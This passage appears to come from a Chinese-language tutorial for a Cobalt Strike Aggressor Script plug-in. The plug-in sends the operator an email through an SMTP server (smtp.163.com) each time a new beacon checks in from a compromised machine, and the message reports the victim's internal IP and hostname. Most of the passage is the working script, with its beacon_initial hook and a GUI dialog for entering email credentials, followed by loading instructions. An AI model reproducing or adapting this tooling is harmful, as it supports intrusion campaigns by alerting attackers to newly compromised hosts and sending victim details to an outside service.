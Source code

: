 ```

on beacon_initial {

    show_message($myEmailPassword);

foreach $entry (beacons()) {

               if($entry['id'] == $1){
$value = [new Main];
[$value setValue : $myEmailAccount,$myEmailPassword,$smtp,@Recipients,$entry['computer'] ,$Sender,"Target ip:" . $entry['internal'] . " Target host: " . $entry['computer']];
[$value  start];
println(@Recipients);
  }
   }
}

popup attacks {
local('$dialog %defaults');
  item "set email"{
# setup our defaults
%defaults["smtp"] = "smtp.163.com";
%defaults["myEmailAccount"]  = "xxx@163.com";
%defaults["myEmailPassword"] = "*******";
%defaults["Sender"] = "Sender";
%defaults["Recipients"] = "xxx@gmail.com";
$dialog = dialog("email online reminder", %defaults, &amp;stage_attack);
dialog_description($dialog, "This is a cobalt strike on-line automatically remind the plug-in if there are multiple recipients please use, separated.");
drow_text($dialog, "smtp", "smtp: ");
drow_text($dialog, "myEmailAccount", "Outbox: ");
drow_text($dialog, "myEmailPassword", "Password: ");
drow_text($dialog, "Sender", "Sender: ");
drow_text($dialog, "Recipients", "Recipients: ");
dbutton_action($dialog, "Launch");

        # show our dialog
        dialog_show($dialog);
  }
}
```

<strong>GUI版本加载方法*<br>
通过点击</strong>Cobalt Strike – &gt; Script Manager**并按**Load**在图形化中脚本。<br>[![](https://www.cobaltstrike.com/aggressor-script/images/scriptloader.jpg)](https://www.cobaltstrike.com/aggressor-script/images/scriptloader.jpg)

GUI版本主要就是为了方便在GUI界面中使用，使用dialog的方式进行呈现方便用户使用，在attacks下载框中添加`set email`选项点击调用一个dialog输入框输入完成点击`Launch` 即可。

[![](https://p5.ssl.qhimg.com/t01fa22db7aba0f7100.png)](https://p5.ssl.qhimg.com/t01fa22db7aba0f7100.png)
